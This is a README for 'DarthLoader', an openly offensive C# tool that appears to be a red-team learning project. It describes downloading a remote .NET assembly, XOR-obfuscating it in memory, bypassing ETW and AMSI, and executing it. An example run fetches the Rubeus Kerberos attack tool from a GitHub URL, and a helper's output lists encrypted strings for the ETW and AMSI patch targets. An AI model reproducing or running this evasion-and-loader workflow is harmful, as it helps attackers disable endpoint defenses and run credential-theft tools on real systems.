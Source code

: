 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project from:
- https://github.com/cobbr/SharpSploit/tree/master/SharpSploit/Evasion
- https://jfmaes-1.gitbook.io/reflection-workshop/
- StackOverflow

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Fetch a local .Net assembly into memory.
- Bypass ETW and AMSI by decrypting function strings at runtime via xor key being passed as cmdline arg.
- Decrypt and run the assembly from memory.

```
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe testing123 https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/Rubeus.exe test

 _______                     __     __       __                              __
|       \                   |  \   |  \     |  \                            |  \
| $$$$$$$\ ______   ______ _| $$_  | $$____ | $$      ______   ______   ____| $$ ______   ______
| $$  | $$|      \ /      |   $$ \ | $$    \| $$     /      \ |      \ /      $$/      \ /      \
| $$  | $$ \$$$$$$|  $$$$$$\$$$$$$ | $$$$$$$| $$    |  $$$$$$\ \$$$$$$|  $$$$$$|  $$$$$$|  $$$$$$\
| $$  | $$/      $| $$   \$$| $$ __| $$  | $| $$    | $$  | $$/      $| $$  | $| $$    $| $$   \$$
| $$__/ $|  $$$$$$| $$      | $$|  | $$  | $| $$____| $$__/ $|  $$$$$$| $$__| $| $$$$$$$| $$
| $$    $$\$$    $| $$       \$$  $| $$  | $| $$     \$$    $$\$$    $$\$$    $$\$$     | $$
 \$$$$$$$  \$$$$$$$\$$        \$$$$ \$$   \$$\$$$$$$$$\$$$$$$  \$$$$$$$ \$$$$$$$ \$$$$$$$\$$


[!] ETW bypassed!
[!] Amsi bypassed!
[*] Downloading and encrypting assembly with the key: test
[+] Encrypted assembly loaded into memory...
[+] Hit any key to run...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


 Ticket requests and renewals:

    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec]


<-----SNIP----->
```

## DarthLoaderHelper
This project was made to help Xor encrypt the strings needed for passing into function calls to patch ETW/AMSI in Helpers.cs.  
```
D:\SecToolDev\DarthLoaderHelper.exe testing123

[+] Encrypting with key: testing123
[+] Encrypted string 'etwbypass': 11110416101E064241
[+] Encrypted string 'amsibypass': 1508001D0B1717504140
[+] Encrypted string 'ntdll.dll': 1A1117180540035D5E
[+] Encrypted string 'EtwEventWrite': 311104311F0B094565411D1116
[+] Encrypted string 'amsi.dll': 1508001D470A0B5D
[+] Encrypted string 'AmsiScanBuffer': 3508001D3A0D065F704612031606
```

## To-do
- [X] Help menu
- [X] Paramerize URL 
- [X] Add local file assembly loading and parameterize file path 
- [X] Paramerize assembly parameters

